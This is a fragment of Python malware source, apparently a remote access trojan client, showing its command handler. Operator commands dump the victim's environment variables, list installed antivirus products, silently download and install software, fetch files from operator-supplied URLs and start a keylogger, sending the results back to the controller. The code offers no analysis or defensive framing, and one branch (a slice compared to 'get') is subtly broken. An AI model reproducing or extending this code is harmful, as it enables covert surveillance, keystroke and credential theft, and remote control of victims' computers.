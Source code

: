         elif command == 'env':
            try:
                execute = subprocess.run(['powershell', 'Get-Childitem -path env:'], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout + execute.stderr
                result = result.decode()
                reliable_send(result)
            except:
                pass

        elif command == 'av':
            try:
                execute = subprocess.run(['powershell', 'Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct'], shell=True, stdout=subprocess.PIPE, 
                                         stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout + execute.stderr
                result = result.decode()
                #print(result)
                reliable_send(result)
            except:
                pass


        elif command == 'python_install':
            try:
                execute = subprocess.run("curl https://www.python.org/ftp/python/3.10.2/python-3.10.2-amd64.exe --output python-3.10.2-amd64.exe && python-3.10.2-amd64.exe /quiet InstallAllUsers=1 PrependPath=1 Include_test=0", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
                result = execute.stdout.decode()+ execute.stderr.decode()
                #result = result.decode()
                reliable_send(result)
            except:
                pass


        elif command[:8] == 'get':
            try:
                downloadurl(command[3:])
                reliable_send("Downloaded")
            except:
                reliable_send("Not Downloaded")



        elif command == 'keylogger':
                

                try:
                    t1 = threading.Thread(target=start_log)
                    t1.start()
                    
                except:
                    pass
